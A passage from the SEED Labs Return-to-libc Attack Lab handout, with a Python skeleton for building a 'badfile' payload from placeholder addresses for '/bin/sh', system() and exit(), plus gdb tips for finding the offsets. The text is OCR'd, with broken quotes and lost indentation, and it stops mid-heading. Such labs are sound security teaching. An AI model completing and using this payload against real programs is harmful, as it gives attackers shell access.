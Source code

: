 We are ready to create the content of badfile. Since the content involves some binary data (e.g., the
address of the libc functions), we can use Python to do the construction. We provide a skeleton of the
code in the following, with the essential parts left for you to fill out.

```py
# !/usr/bin/env python3

import sys

# Fill content with non-zero values

content = bytearray(0xaa for i in range(300))
X = 0
sh_addr = 0x00000000 # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder=’little’)
Y = 0
system_addr = 0x00000000 # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder=’little’)
Z = 0
exit_addr = 0x00000000 # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder=’little’)
SEED Labs – Return-to-libc Attack Lab 7

# Save content to a file

with open("badfile", "wb") as f:
f.write(content)
```

You need to figure out the three addresses and the values for X, Y, and Z. If your values are incorrect,
your attack might not work. In your report, you need to describe how you decide the values for X, Y and Z.
Either show us your reasoning or, if you use a trial-and-error approach, show your trials.

##### A note regarding gdb

If you use gdb to figure out the values for X, Y, and Z, it should be noted that the
gdb behavior in Ubuntu 20.04 is slightly different from that in Ubuntu 16.04. In particular, after we set a
break point at function bof, when gdb stops inside the bof() function, it stops before the ebp register is
set to point to the current stack frame, so if we print out the value of ebp here, we will get the caller’s ebp
value, not bof’s ebp. We need to type next to execute a few instructions and stop after the ebp register
is modified to point to the stack frame of the bof() function. The SEED book (2nd edition) is based on
Ubuntu 16.04, so it does not have this next step.

##### Attack variation 1: Is the exit() function really necessary? Please try your attack without including
